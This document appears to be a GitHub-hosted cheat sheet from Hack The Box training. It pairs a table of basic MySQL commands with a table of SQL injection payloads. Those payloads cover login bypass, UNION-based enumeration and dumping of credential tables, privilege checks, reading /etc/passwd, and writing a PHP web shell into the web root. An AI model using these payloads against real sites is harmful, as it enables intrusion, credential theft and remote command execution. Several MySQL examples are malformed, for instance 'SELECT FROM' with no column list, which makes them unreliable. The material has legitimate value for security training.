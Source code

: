 # SQL Injection

## **MySQL**

| **Command**                                                     | **Description**                                          |
| --------------------------------------------------------------- | -------------------------------------------------------- |
| **General**                                                     |                                                          |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p`              | login to mysql database                                  |
| `SHOW DATABASES`                                                | List available databases                                 |
| **Tables**                                                      |                                                          |
| `USE users`                                                     | Switch to database                                       |
| `CREATE TABLE logins (id INT,`                                  | Add a new table                                          |
| `SHOW TABLES`                                                   | List available tables in current database                |
| `DESCRIBE logins`                                               | Show table properties and columns                        |
| `INSERT INTO table_name VALUES (value_1, ..)`                   | Add values to table                                      |
| `INSERT INTO table_name(column2,...) VALUES (column2_value,..)` | Add values to specific columns in a table                |
| `UPDATE table_name SET column1=newvalue1, WHERE <condition>`    | Update table values                                      |
| **Columns**                                                     |                                                          |
| `SELECT FROM table_name`                                        | Show all columns in a table                              |
| `SELECT column1, column2 FROM table_name`                       | Show specific columns in a table                         |
| `DROP TABLE logins`                                             | Delete a table                                           |
| `ALTER TABLE logins ADD newColumn INT`                          | Add new column                                           |
| `ALTER TABLE logins RENAME COLUMN newColumn To oldColumn`       | Rename column                                            |
| `ALTER TABLE logins MODIFY oldColumn DATE`                      | Change column datatype                                   |
| `ALTER TABLE logins DROP oldColumn`                             | Delete column                                            |
| **Output**                                                      |                                                          |
| `SELECT FROM logins ORDER BY column_1`                          | Sort by column                                           |
| `SELECT FROM logins ORDER BY column_1 DESC`                     | Sort by column in descending order                       |
| `SELECT FROM logins ORDER BY column_1 DESC, id ASC`             | Sort by two-columns                                      |
| `SELECT FROM logins LIMIT 2`                                    | Only show first two results                              |
| `SELECT FROM logins LIMIT 1, 2`                                 | Only show first two results starting from index 2        |
| `SELECT FROM table_name WHERE <condition>`                      | List results that meet a condition                       |
| `SELECT FROM logins WHERE username LIKE admin%'`                | List results where the name is similar to a given string |

## MySQL Operator Precedence

* Division (/), Multiplication (\*), and Modulus (%)
* Addition (+) and Subtraction (-)
* Comparison (=, >, <, <=, >=, !=, LIKE)
* NOT (!)
* AND (&&)
* OR (||)

## **SQL Injection**

<table data-header-hidden><thead><tr><th width="416"></th><th></th></tr></thead><tbody><tr><td><strong>Payload</strong></td><td><strong>Description</strong></td></tr><tr><td><strong>Auth Bypass</strong></td><td></td></tr><tr><td><code>admin' or '1'='1</code></td><td>Basic Auth Bypass</td></tr><tr><td><code>admin')--</code></td><td>Basic Auth Bypass with comments</td></tr><tr><td><a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass">Auth Bypass Payloads</a></td><td></td></tr><tr><td><strong>Union Injection</strong></td><td></td></tr><tr><td><code>order by 1--</code></td><td>Detect number of columns using order by</td></tr><tr><td><code>cn' UNION select 1,2,3---</code></td><td>Detect number of columns using Union injection</td></tr><tr><td><code>cn' UNION select 1, @@version, 3, 4---</code></td><td>Basic Union injection</td></tr><tr><td><code>UNION select username, 2, 3, 4 from passwords</code></td><td>Union injection for 4 columns</td></tr><tr><td><strong>DB Enumeration</strong></td><td></td></tr><tr><td><code>@@version</code></td><td>Fingerprint MySQL with query output</td></tr><tr><td><code>SLEEP (5)</code></td><td>Fingerprint MySQL with no output</td></tr><tr><td><code>cn' UNION select 1, database(),2,3---</code></td><td>Current database name</td></tr><tr><td><code>cn' UNION select 1, schema_name, 3, 4 from INFORMATION_SCHEMA.SCHEMATA--</code></td><td>List all databases</td></tr><tr><td><code>cn' UNION select 1, TABLE_NAME, TABLE_SCHEMA, 4 from INFORMATION_SCHEMA. TABLES where table_schema='dev' -- -</code></td><td>List all tables in a specific database</td></tr><tr><td><code>cn' UNION select 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'--</code></td><td>List all columns in a specific table</td></tr><tr><td><code>cn' UNION select 1, username, password, 4 from dev.credentials--</code></td><td>Dump data from a table in another database</td></tr><tr><td><strong>Privileges</strong></td><td></td></tr><tr><td><code>cn' UNION SELECT 1, user(), 3, 4</code></td><td>Find current user</td></tr><tr><td><code>cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user=""root""--</code></td><td>Find if user has admin privileges</td></tr><tr><td><code>cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee=""'root'@'localhost'""--</code></td><td>Find if all user privileges<sup>1</sup></td></tr><tr><td><code>cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name=""secure_file_priv""-- -</code></td><td>Find which directories can be accessed through MySQL</td></tr><tr><td><strong>File Injection</strong></td><td></td></tr><tr><td><code>cn' UNION SELECT 1, LOAD_FILE(""/etc/passwd""), 3, 4---</code></td><td>Read local file</td></tr><tr><td><code>select 'file written successfully!' into outfile '/var/www/html/proof.txt'</code></td><td>Write a string to a local file</td></tr><tr><td><code>cn' union select """", '&#x3C;?php system($_REQUEST[0]); ?>', """" into outfile '/var/www/html/shell.php'--</code></td><td>Write a web shell into the base web directory</td></tr></tbody></table>
